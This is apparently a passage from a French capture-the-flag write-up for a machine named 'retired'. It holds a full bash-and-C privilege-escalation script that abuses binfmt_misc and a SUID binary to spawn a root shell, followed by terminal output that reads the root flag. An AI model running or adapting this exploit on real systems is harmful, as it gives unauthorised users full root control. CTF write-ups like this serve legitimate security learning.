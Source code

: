 ```bash
test -e "$target" || die "Error: Unable to find a suid binary in $searchsuid"

binfmt_magic="$(read_magic "$target" "126")"
test -z "$binfmt_magic" && die "Error: Unable to retrieve a magic for $target"

fmtname="$(mktemp -u XXXX)"
fmtinterpr="$(mktemp)"

gcc -o "$fmtinterpr" -xc - <<- __EOF__
	#include <stdlib.h>
	#include <unistd.h>
	#include <stdio.h>
	#include <pwd.h>

	int main(int argc, char *argv[])
	{
		// remove our temporary file
		unlink("$fmtinterpr");

		// remove the unused binary format
		FILE* fmt = fopen("$mountpoint/$fmtname", "w");
		fprintf(fmt, "-1\\n");
		fclose(fmt);

		// MOTD
		setuid(0);
		uid_t uid = getuid();
		uid_t euid = geteuid();
		struct passwd *pw = getpwuid(uid);
		struct passwd *epw = getpwuid(euid);
		fprintf(stderr, "uid=%u(%s) euid=%u(%s)\\n",
			uid,
			pw->pw_name,
			euid,
			epw->pw_name);

		// welcome home
		char* sh[] = {"/bin/sh", (char*) 0};
		execvp(sh[0], sh);
		return 1;
	}
__EOF__

chmod a+x "$fmtinterpr"

binfmt_line="_${fmtname}_M__${binfmt_magic}__${fmtinterpr}_OC"
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper

exec "$target"
```

ensuite on va l'executer

```
dev@retired:/tmp$ ./binfmt_rootkit
uid=0(root) euid=0(root)
# cd /root     	
# ls 
cleanup.sh  root.txt
# cat root.txt
71f643297b178855e1bca48141e773cc
```
et magie ! on est enfin root !

